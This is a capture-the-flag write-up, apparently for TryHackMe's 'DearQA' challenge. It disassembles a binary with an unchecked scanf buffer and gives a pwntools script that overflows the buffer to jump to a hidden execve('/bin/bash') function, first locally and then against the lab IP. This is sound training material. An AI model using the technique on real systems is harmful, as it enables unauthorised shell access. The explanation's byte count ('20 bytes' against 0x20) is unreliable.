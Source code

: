 Vulnerable file : DearQA.DearQA 
Target ip : 10.10.156.111

---

Analyzing file:
```bash
file DearQA-1627223337406.DearQA 
```
```
DearQA-1627223337406.DearQA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dae71dcf7b3fe612fe9f7a4d0fa068ff3fc93bd, not stripped
```

---

Port 5700 is running the program. We can run it by running :
```bash
nc 10.10.156.111 5700
```

----

That how looks the decompily /  desassambly code (Bonaryninja)
```C
int64_t vuln()
{
    puts("Congratulations!");
    puts("You have entered in the secret f…");
    fflush(stdout);
	return execve("/bin/bash", 0, 0);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    puts("Welcome dearQA");
    puts("I am sysadmin, i am new in devel…");
    printf("What's your name: ");
    fflush(stdout);
    void var_28;
    __isoc99_scanf("%s", &var_28);
    printf("Hello: %s\n", &var_28);
    return 0;
}

```

```ASM
vuln:
	push    rbp {__saved_rbp}
    mov     rbp, rsp {__saved_rbp}
	mov     edi, 0x4007b8  {"Congratulations!"}
    call    puts
    mov     edi, 0x4007d0  {"You have entered in the secret f…"}
    call    puts
    mov     rax, qword [rel stdout]
    mov     rdi, rax
    call    fflush
    mov     edx, 0x0
    mov     esi, 0x0
    mov     edi, 0x4007f9  {"/bin/bash"}
    call    execve
    pop     rbp {__saved_rbp}
    retn     {__return_addr}

main:
    push    rbp {__saved_rbp}
    mov     rbp, rsp {__saved_rbp}
    sub     rsp, 0x20
    mov     edi, 0x400803  {"Welcome dearQA"}
    call    puts
    mov     edi, 0x400818  {"I am sysadmin, i am new in devel…"}
    call    puts
    mov     edi, 0x40083e  {"What's your name: "}
    mov     eax, 0x0
    call    printf
    mov     rax, qword [rel stdout]
    mov     rdi, rax
    call    fflush
    lea     rax, [rbp-0x20 {var_28}]
    mov     rsi, rax {var_28}
    mov     edi, 0x400851
    mov     eax, 0x0
    call    __isoc99_scanf
    lea     rax, [rbp-0x20 {var_28}]
    mov     rsi, rax {var_28}
    mov     edi, 0x400854  {"Hello: %s\n"}
    mov     eax, 0x0
    call    printf
    mov     eax, 0x0
    leave    {__saved_rbp}
    retn     {__return_addr}
```

---

STACK :

High addresses on top to low addresses on bottom
Pushing and element into the stack is adding to the stack, to the closest AND lowest address he can.

```ASM
lea rax, [rbp-0x20 {var_28}]
```

|               | 0xffffff                   |                    |
| ------------- | -------------------------- | ------------------ |
|               | RIP : address of main func |                    |
|               | RBP                        | Register to find ! |
|               |                            |                    |
| in the stack  |                            |                    |
| goes this way |                            |                    |
| message and   |                            |                    |
| I'm writing a | 0x004006fd : rbp - 0x20    |                    |
|               |                            |                    |
|               |                            |                    |
|               |                            |                    |
|               | 0x00000                    |                    |
There is 20 bytes to write on the stack before reaching RBP.  
Then, there is 8 bytes (1 stack instruction) to reach RIP, the register we want to write on.

---

Let's make a python exploit script :
```Python
from pwn import *

context.binary = binary = "./DearQA.DearQA"

static = ELF(binary)


"""
No PIE, co Canary so addresses are not randomly placed and they will stay persistant

scanf writes rbp-20
20 bytes to reach RBP : "A"
8 bytes to reach rip  : "B"
vuln() address

"""

vuln_address = p64(static.symbols.vuln)  #Address of vuln symbol strings

#p64() make the address from 64bits to 8bits and convert it to little endian

payload = b"A"*0x20 + b"B"*0x8 + vuln_address

p = process()
p.recvuntil(b"name:")
p.sendline(payload)
p.interactive()
```

```bash
python3 exploit.py
```
```
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
Congratulations!
You have entered in the secret function!
$ id
uid=1000(vdarras)
```

---

Success ! Now let's put that on the real program running on port 5700 of the target ip, let's modify the python script :

```python
```Python
from pwn import *

context.binary = binary = "./DearQA.DearQA"

static = ELF(binary)

vuln_address = p64(static.symbols.vuln)

payload = b"A"*0x20 + b"B"*0x8 + vuln_address

p = remote("10.10.156.111", 5700) #IP and Port to execute the payload
p.recvuntil(b"name:")
p.sendline(payload)
p.interactive()
```

```bash
python3 exploit.py
```
```
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (446): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ $ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
```

Flag : THM{PWN_1S_V3RY_E4SY}